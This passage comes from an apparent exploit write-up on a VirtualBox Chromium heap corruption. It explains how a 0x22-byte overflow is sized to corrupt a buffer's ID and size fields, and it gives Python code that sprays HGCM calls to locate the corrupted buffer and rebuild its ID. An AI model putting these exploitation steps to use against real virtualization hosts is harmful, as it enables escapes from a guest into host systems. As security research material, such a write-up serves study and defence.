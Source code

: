 Notice that we send our message with exactly the same size as the one that has just been freed. Due to how the glibc heap works, it will hopefully take up exactly the same location. Moreover, notice that `count = 1` and remember that only the last length can be arbitrarily large. Since there is only one element, obviously the first is also the last element.

Finally, let `pLocalLength[0] = 0x22`. This is small enough to only corrupt the ID and size fields (we don't want to corrupt `pData`).

How is that calculated?

- Our message is 0x30 bytes long
- The offset of `pString` is at 0x28
- glibc chunk header (64bit) is 0x10 bytes wide
- Both `uiId` and `uiSize` are 32bit unsigned integers
- `pLocalLength[0]` is subtracted by 2 in `crUnpackExtendShaderSource()`

Therefore, we need 0x30-0x28=8 bytes to reach the end of the message, 0x10 bytes to go over the chunk header, and 8 bytes more to overwrite `uiId` and `uiSize`. To compensate the subtraction, we must add 2 bytes more. Overall, this equals to 0x22 bytes.

#### Finding The Corruption

Recall, that the size field is a 32bit unsigned integer and that our chosen size is 0x30 bytes. Hence, this field will hold the value 0x0a0a0a30 after corruption (the three zero bytes have been replaced by the byte 0x0a).

Finding the corrupted ID is slightly more complicated and requires us to traverse the ID list to find out which of them disappeared. We do this by sending a `SHCRGL_GUEST_FN_WRITE_BUFFER` message to every ID as follows:

```python
print("[*] Finding corrupted buffer...")

found = -1

for i in range(spray_num):
    if i != hole_pos:
        try:
            hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_BUFFER, [bufs[i], spray_len, 0, ""])
        except IOError:
            print("[+] Found corrupted id: 0x%x" % bufs[i])
            found = bufs[i]
            break

if found < 0:
    exit("[-] Error could not find corrupted buffer.")
```

Finally we manually replace every `\0` with a `\n` byte to match the ID of the corrupted buffer (forgive my python skills):

```python
id_str = "%08x" % found
new_id = int(id_str.replace("00", "0a"), 16)
print("[+] New id: 0x%x" % new_id)
```
